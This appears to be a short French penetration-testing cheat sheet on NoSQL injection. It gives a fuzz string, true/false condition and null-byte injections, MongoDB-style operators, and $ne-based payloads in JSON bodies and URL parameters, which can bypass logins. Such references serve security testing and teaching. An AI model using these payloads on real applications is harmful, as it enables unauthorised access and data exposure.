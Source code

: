 ## Fuzz pour détecter une injection NoSQL

``'\"`{\r;$Foo}\n$Foo \\xYZ\u0000``

`'%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00`

### Comportement conditionnel

Injection de condition fausse : `' && 0 && 'x`

Injection de condition vraie : `' && 1 && 'x`

### Réécriture des conditions

Injection de condition fausse : `' || 0 || 'x`

Injection de condition vraie : `' || 1 || 'x`

Injection du caractère null : `'%00`

## Opérateurs NoSQL

- `$where` : match un document qui satisfait une expression JavaScript
- `$regex` : match un document qui contient une chaîne de caractères qui satisfait une expression régulière
- `$ne` : match un document qui ne contient pas une valeur
- `$in` : match un document qui contient une valeur dans un tableau

### Envoyer les opérateurs de query

Les opérateurs de query peuvent être insérés comme des objects imbriqués : `{"username":{"$ne":"invalid"}}`

Pour les entrées dans les URL, on peut les passer dans les paramètres, par exemple : `?username[$ne]=invalid`

Si ça ne marche pas en GET via les paramètres d'URL, on peut essayer de les passer dans le corps de la requête en POST.